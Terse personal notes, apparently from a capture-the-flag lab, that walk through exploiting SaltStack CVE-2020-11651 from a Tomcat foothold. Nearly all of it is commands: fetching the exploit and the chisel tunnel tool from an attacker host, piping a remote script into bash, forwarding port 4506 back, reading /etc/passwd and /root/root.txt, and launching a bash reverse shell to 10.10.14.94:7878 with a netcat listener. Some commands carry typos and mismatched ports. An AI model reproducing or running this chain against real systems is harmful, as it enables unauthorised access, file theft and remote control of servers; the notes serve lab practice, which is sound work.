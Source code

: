 ```bash
cd /home/tomcat
cat user.txt | cut -c1-20




netstat -tulpn
# port 3505, 3506
# opening tge firewall for salt
# saltstack exploit

```


### cve-2020-11651 PoC


```bash
# tab1:
git clone git
python exploit.py

pyserver


# tab2: Tomcat
curl http://10.10.10.10/exploit.pu -o exploit.py
python exploit.py
# module not found on the target system
# use reverse portforwarding on port 4506 to run the exploit locally
```

chisel linux:
- fast TCP tunnel over HTTP
- on client: `./chisel client 110.10.10.10:9999 R:4506:localhost:4506`
- on server: `chisel server -p 999 -reverse`

```bash
# tab 1:
curl https://o.jpillora.com/chisel! | bash
# install in /usr.local/bin/chsel

# tab2: Tomcat
curl http://10.10.10.10/chisel -o chisel
chmod +x chisel

./chisel client 110.10.10.10:9999 R:4506:localhost:4506


# tab3:
chisel server -p 999 -reverse


# tab 1:
cd CVE-20202-11651-poc
python3 exploit.py --help

python3 exploit.py --master 127.0.0.1 --read /etc/passwd
python3 exploit.py --master 127.0.0.1 --read /root/root.txt

python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.94/7878 0>&1"'



# tab 4:
nc -lvnp 7878
```